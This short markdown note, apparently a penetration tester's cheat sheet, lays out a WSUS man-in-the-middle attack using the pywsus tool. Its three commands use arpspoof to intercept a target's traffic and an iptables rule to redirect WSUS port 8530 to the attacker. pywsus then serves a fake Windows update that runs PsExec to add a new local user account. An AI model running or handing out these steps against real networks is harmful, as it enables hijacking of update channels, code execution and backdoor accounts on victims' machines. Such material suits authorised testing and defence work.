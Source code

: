 ### Source
https://github.com/GoSecure/pywsus  

### Get into mitm position
```
arpspoof -i <interface> -t <rhost> -r <gatewayIp>
```

### Send traffic to localhost
```
iptables -t nat -I PREROUTING -i <interface> -p tcp --dport 8530 -j REDIRECT --to-port 8530
```

### Start local wsus
```
python3 pywsus.py -H <lhost> -p 8530 -e <psexecExeFile> -c '/accepteula /s cmd.exe /c "net user /add <user> <password>"'
```

